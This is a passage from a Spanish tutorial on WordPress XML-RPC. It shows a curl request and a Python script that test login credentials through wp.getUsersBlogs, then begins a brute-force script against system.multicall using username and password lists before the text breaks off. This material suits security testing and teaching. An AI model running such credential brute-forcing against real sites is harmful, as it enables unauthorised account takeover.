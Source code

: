 También puedes verificarlo con un comando cURL:

```bash
curl -X POST https://ejemplo.com/xmlrpc.php -d '<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value><string>usuario</string></value></param><param><value><string>contraseña</string></value></param></params></methodCall>'
```

Si XML-RPC está habilitado, recibirás una respuesta con el contenido del blog (o un error de autenticación si las credenciales son incorrectas).

---

## **3. Autenticación y prueba de credenciales en XML-RPC**

Para autenticarnos correctamente mediante `xmlrpc.php`, podemos utilizar herramientas como **Python** y la biblioteca `xmlrpc.client`.

### **Ejemplo de autenticación en Python**

```python
import xmlrpc.client

# URL del XML-RPC de WordPress
url = "https://ejemplo.com/xmlrpc.php"

# Usuario y contraseña
usuario = "admin"
contrasena = "password123"

# Cliente XML-RPC
wp = xmlrpc.client.ServerProxy(url)

try:
    # Intentamos obtener información del sitio para verificar autenticación
    blogs = wp.wp.getUsersBlogs(usuario, contrasena)
    print("Autenticación exitosa:", blogs)
except xmlrpc.client.Fault as error:
    print("Error en autenticación:", error)
```

Si las credenciales son correctas, el script devolverá información sobre el blog. Si son incorrectas, mostrará un error.

---

## **4. Ataque de Fuerza Bruta a XML-RPC**

Dado que `system.multicall` permite múltiples intentos en una sola petición, podemos explotar esto para hacer ataques de fuerza bruta de manera más eficiente.

### **Ejemplo de Fuerza Bruta en XML-RPC con Python**

```python
import xmlrpc.client

# URL del sitio WordPress con XML-RPC habilitado
url = "https://ejemplo.com/xmlrpc.php"

# Lista de usuarios y contraseñas (diccionario básico)
usuarios = ["admin", "user", "editor"]
contrasenas = ["123456", "password", "admin123", "qwerty"]

# Cliente XML-RPC
wp = xmlrpc.client.ServerProxy(url)

```